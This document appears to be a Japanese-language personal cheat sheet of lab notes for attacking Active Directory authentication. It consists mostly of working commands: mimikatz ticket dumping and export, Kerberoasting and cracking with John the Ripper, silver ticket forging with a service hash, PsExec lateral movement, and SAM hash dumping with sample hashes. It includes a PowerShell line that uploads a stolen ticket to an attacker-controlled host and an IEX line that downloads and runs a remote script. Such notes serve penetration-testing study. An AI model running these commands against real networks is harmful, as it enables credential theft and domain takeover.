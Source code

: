 ## Active Directory Authentication

### 認証情報の抽出(mimikatz)

### チケットの抽出(mimikatz)

```cmd
mimikatz # sekurlsa::tickets
```

### サービスチケットの要求

```powershell
PS C:\Users\Public> Add-Type -AssemblyName System.IdentityModel
PS C:\Users\Public> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/ExchangeService.xor.com'
```

### 現在のユーザにキャッシュされたkerberosチケットを表示

```cmd
klist
```

### サービスチケットのダウンロード

```cmd
mimikatz # privilege::debug
mimikatz # kerberos::list /export
```

### サービスチケットのクラック

サービスアカウントのNTLMやパスワードの取得ができる

チケットの配送(apacheを立ち上げておく）

```
powershell (New-Object System.Net.WebClient).uploadFile('http://192.168.45.187/upload.php', '4-40a10000-xor-app59$@XOR-APP59$-XOR.COM.kirbi')
```

```bash
ls /var/www/uploads/                                  
'4-40a10000-xor-app59$@XOR-APP59$-XOR.COM.kirbi'
```

#### kerberostを利用したクラック（遅いのでJohn the ripperのがいい）

```bash
python /usr/share/kerberoast/tgsrepcrack.py /usr/share/wordlists/rockyou.txt 4-40a10000-xor-app59\$@XOR-APP59\$-XOR.COM.kirbi
```

#### John the ripperを利用したクラック

```bash
kirbi2john 1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi -o crack_file
```

```bash
john --format=krb5tgs crack_file --wordlist=/usr/share/wordlists/rockyou.txt
```

#### Invoke-Kerberoust.ps1を利用したクラック

ドメイン内のすべてのサービスプリンシパル名を自動的に列挙し、それらのサービスチケットを要求し、John the RipperとHashcatの両方でクラックできる形式でそれらをエクスポートする

https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/

![image-20230220232006616](img/ActiveDirectory_auth/image-20230220232006616.png)

```cmd
powershell.exe IEX (New-object System.Net.Webclient).Downloadstring('http://192.168.45.187/Invoke-Kerberoast.ps1')
```

Hashの値すべてをコピーしサクラエディタで置換（タブと\r\n）してファイルを作成してJohn the ripperでパスワードクラックする

```bash
john --format=krb5tgs crack_file --wordlist=/usr/share/wordlists/rockyou.txt
```



### シルバーチケット

ドメインのSIDを取得する

```cmd
whoami /user

User Name               SID                                          
======================= =============================================
xor-app59\administrator S-1-5-21-3051798232-4248191986-2095020414-500
```

最後の-500を除いた部分がドメインを定義するSID

サービスチケットを作成する

```cmd
mimikatz # kerberos::golden /user:sqlServer /domain:xor.com /sid:S-1-5-21-3051798232-4248191986-2095020414 /target:xor-app23.xor.com:1433 /service:MSSQLSvc /rc4:9F32A1D1BD317B5B8E96DDE9186D8239 /ptt
```

横展開する（成功したことない）

```cmd
PsExec.exe -accepteula -u sqlServer \\xor-app23 cmd.exe
```



### SAMの取得（reg save)

参考サイト：https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry

* 管理者アカウントでsystemとsamを取得する

  ※おそらく整合性レベルHigh

  ```
  reg save hklm\system system
  reg save hklm\sam sam
  ```

* 取得した2ファイルをkaliに転送する

  ※systemは容量が大きいのでscpなどを使って転送するとよさそう

* ハッシュダンプする

  ```bash
  samdump2 system sam                                               
  
  ----
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  *disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  *disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  *disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  ```

  ※disableとついてると失敗？？

* 以下コマンドでもhashdump可能

  https://www.thehacker.recipes/ad/movement/ntlm/pth

  ```bash
  secretsdump.py -sam sam -system system LOCAL
  
  -----
  Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
  
  [*] Target system bootKey: 0x8083a99d1e5064d3bab801bc951c6fea
  [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:97eb2768602642d58b10db2d26caff8a:::
  [*] Cleaning up...
  ```

  
